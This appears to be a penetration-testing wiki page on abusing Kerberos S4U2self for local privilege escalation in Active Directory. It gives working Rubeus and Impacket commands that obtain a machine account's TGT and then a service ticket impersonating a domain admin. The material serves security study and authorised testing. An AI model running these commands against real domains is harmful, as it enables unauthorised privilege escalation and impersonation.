# S4U2self abuse

## Theory

The following recipe shows how to abuse S4U2self for Local Privilege Escalation, or for stealthier alternative to Silver Ticket. There are also other tricks based on S4U2self, using u2u (user-to-user) as well: [#s4u2self-+-u2u](../#s4u2self-+-u2u "mention").

### Delegation and extensions

Kerberos delegations allow services to access other services on behalf of domain users.

The "Kerberos" authentication protocol features delegation capabilities explained [here](./). Kerberos delegations can be abused by attackers to obtain access to valuable assets and sometimes even escalate to domain admin privileges. Regarding [constrained delegations](constrained.md) and [rbcd](rbcd.md), those types of delegation rely on **Kerberos extensions called** [**S4U2Self and S4U2Proxy**](../#service-for-user-extensions).

Simply put, **Service for User to Self (S4U2self)** allows a service to obtain a Service Ticket, on behalf of a user (called "principal"), to itself.

Last but not least, S4U2self can be used to produce a Service Ticket to oneself on behalf of another domain user, **even if that user is "sensitive for delegation" or member of the Protected Users group**. Consequently, this allows attackers, in very specific scenarios, to escalate their privileges or perform lateral movements.

### Microsoft Virtual Accounts

Since machine accounts have their own set of SPNs by default at their creation, S4U2self can be used by any machine account, without any supplementary configuration. If an attacker manages to execute code as `NT AUTHORITY\NETWORK SERVICE` or as any other "Microsoft Virtual Account" (e.g. `defaultapppool` or `mssqlservice`) he will be able to escalate his privileges by abusing S4U2self. This happens because this kind of accounts all act on the network as the machine itself.

### OPSEC considerations

The S4U2self abuse is not only a great way to perform Local Privilege Escalation or a lateral move, it's also an way more stealthier alternative to [Silver Tickets](../forged-tickets/silver.md) when an attacker has knowledge of a machine account's Kerberos keys. While a Silver Ticket is a Service Ticket featuring a forged PAC, the Service Ticket issued after an S4U2self request will be legitimate and will feature a valid PAC.

## Practice

In order to obtain local admin rights on a target machine, the attackers must be able to execute code on the machine and conduct two major steps: obtain a TGT for the machine account, and use that TGT to make a S4U2self request in order to obtain a Service Ticket as domain admin for the machine.

```powershell
Rubeus.exe tgtdeleg /nowrap
```

### 1. Machine account's TGT

This step revolves around the `tgtdeleg` feature from [Rubeus](https://github.com/GhostPack/Rubeus) which allows an attacker that has code execution on a machine to ask a TGT, which will be the machine account's TGT (cf. [Microsoft Virtual Accounts](s4u2self-abuse.md#microsoft-virtual-accounts)).

```powershell
Rubeus.exe tgtdeleg /nowrap
```

The TGT can then be used with [Pass the Ticket](broken-reference) for the next step, which can be conducted remotely if needed, unlike this initial step.

Alternatively, if the machine account credentials are known, a TGT can be requested commonly.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Impacket](https://github.com/SecureAuthCorp/impacket)'s [getTGT.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py) (Python) script can be used for that purpose. Howerver, this step is optional if getST.py is to be used later on for the S4U2self request. In this case, with the appropriate arguments, it will request a TGT automatically

```bash
getTGT.py -dc-ip "domaincontroller" -hashes :"NThash" "domain"/"machine$"
```
{% endtab %}

{% tab title="Windows" %}
From Windows machines, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for that purpose. Howerver, this step is optional if Rubeus is to be used later on for the S4U2sel requestf. In this case, with the appropriate arguments, Rubeus will request a TGT automatically.

```powershell
Rubeus.exe asktgt /nowrap /domain:"domain" /user:"computer$" /rc4:"NThash"
```
{% endtab %}
{% endtabs %}

### 2. Obtain a Service Ticket

The TGT can then be used along with S4U2self to obtain a Service Ticket impersonating another domain user on the machine.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Impacket](https://github.com/SecureAuthCorp/impacket)'s getST.py (Python) script can be used for the purpose. If needed, `.kirbi` files can be converted to `.ccache` (cf. [Pass the Ticket](broken-reference)).

```bash
export KRB5CCNAME="/path/to/ticket.ccache"
getST.py -self -impersonate "DomainAdmin" -altservice "cifs/machine.domain.local" -k -no-pass -dc-ip "DomainController" "domain.local"/'machine$' 
```
{% endtab %}

{% tab title="Windows" %}
From Windows machines, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for that purpose.

```powershell
Rubeus.exe s4u /self /nowrap /impersonateuser:"DomainAdmin" /altservice:"cifs/machine.domain.local" /ticket:"base64ticket"
```
{% endtab %}
{% endtabs %}

Once a Service Ticket is received, it can be used with [pass-the-ticket](broken-reference)/[pass-the-cache](../ptc.md) to obtain access to oneself as the "DomainAdmin" (the user can be changed in the request. Attackers should select a domain user which has local admin rights on the machine).

{% hint style="info" %}
This technique can also be used when receiving TGTs during a [Kerberos Unconstrained Delegation abuse](unconstrained.md) in order to gain local admin privileges over the victims.
{% endhint %}

## Resources

{% embed url="https://exploit.ph/delegate-2-thyself.html" %}

{% embed url="https://exploit.ph/revisiting-delegate-2-thyself.html" %}

{% embed url="https://cyberstoph.org/posts/2021/06/abusing-kerberos-s4u2self-for-local-privilege-escalation" %}
